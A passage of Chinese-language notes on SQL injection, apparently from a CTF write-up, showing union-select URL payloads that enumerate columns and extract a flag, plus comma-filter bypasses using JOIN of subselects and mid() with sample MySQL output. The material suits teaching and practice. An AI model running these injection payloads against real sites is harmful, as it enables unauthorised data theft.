 > ?table=test``union select group_concat(column_name) from information_schema.columns where table_name =database() limit 1,1

得到flagUwillNeverKnow，最后爆出flag：

> ?table=test ``union select flagUwillNeverKnow  from secret_flag limit 1,1





# 过滤逗号的join注入

在联合注入的时候，如果被过滤了逗号，会让我们的操作很受限，这时可以使用join连结多个表
例如：

```
select * from (select 1)a join (select 2)b join (select 3)c
```

先是执行三个select形成单个字段的3张表，然后使用join将三张表连结起来，这样就形成了一个有三个字段的一张表，这样就可以绕过逗号过滤，形成多个字段的表

![](https://img.npfs06.top/20210306102303.jpeg?imageView2/0/q/75|watermark/2/text/bnBmczA2LnRvcA==/font/5b6u6L2v6ZuF6buR/fontsize/340/fill/IzAwMDAwMA==/dissolve/62/gravity/SouthEast/dx/10/dy/10)



# 过滤逗号的mid注入

```
mysql> select user();
+----------------+
| user()         |
+----------------+
| root@localhost |
+----------------+
1 row in set (0.00 sec)

mysql> select mid(user() from -1);
+---------------------+
| mid(user() from -1) |
+---------------------+
| t                   |
+---------------------+
1 row in set (0.00 sec)

mysql> select mid(user() from -2);
+---------------------+
| mid(user() from -2) |
+---------------------+
| st                  |
+---------------------+
1 row in set (0.00 sec)
```


